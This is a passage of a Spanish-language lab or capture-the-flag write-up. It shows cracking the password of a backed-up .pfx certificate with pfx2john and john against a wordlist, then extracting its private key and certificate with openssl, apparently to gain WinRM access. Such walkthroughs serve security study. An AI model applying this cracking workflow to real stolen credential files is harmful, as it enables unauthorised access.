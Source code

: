 ```
unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

Tenemos un archivo .pfx, el cual corresponde a un archivo de seguridad con clave privada de un certificado, si buscamos como abrir este tipo de archivo encontramos esta [web](https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/), la cual nos dice como extraer una llave privada y un certificado a partir del archivo .pfx asi que vamos a intentarlo:


```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out privkey -nodes
Enter Import Password:
```

Pero nos pide una contraseña, la cual no tenemos.

Utilizando la herramienta `pfx2john` podemos obtener la contraseña de este archivo .pfx:

```
pfx2john legacyy_dev_auth.pfx > hashpfx
```

Esto nos extrae un hash que podemos intentar romper, para esto utilizaremos `john`:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hashpfx
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:01:15 DONE (2023-02-08 01:53) 0.01326g/s 42860p/s 42860c/s 42860C/s thuglife06..thug211
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Tenemos la contraseña, la cual es 'thuglegacy', asi que utilizamos esta contraseña para extraer la clave privada y el certificado:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out privkey -nodes
Enter Import Password:
```
```
ls

legacyy_dev_auth.pfx  privkey
```

Tenemos la llave privada, ahora iremos por el certificado:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem

Enter Import Password:
```
